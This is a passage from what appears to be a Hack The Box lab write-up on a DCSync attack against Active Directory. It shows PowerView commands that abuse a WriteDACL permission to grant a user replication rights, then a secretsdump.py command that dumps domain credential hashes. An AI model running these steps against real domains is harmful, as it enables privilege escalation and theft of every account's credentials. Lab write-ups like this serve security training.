 ![alt text](image-10.png)

**R8: DCSync**

From the [HackTricks page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync): "The DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled."

What the WriteDACL permission allows us to do here is granting ourselves the permissions over the domain that are necessary to perform a DCSync attack. We can do so with PowerView.


```powershell
PS C:\Users\zetsu\Documents> $SecPassword = ConvertTo-SecureString 'chinforinfola' -AsPlainText -Force
PS C:\Users\zetsu\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\zetsu', $SecPassword)
PS C:\Users\zetsu\Documents> Add-ObjectACL -PrincipalIdentity zetsu -Credential $Cred -Rights DCSync
```


Now, we can use `secretsdump.py` to perform the actual attack.

```bash
$ secretsdump.py -just-dc <username>:<password>@<target-ip> -outputfile <filename>
```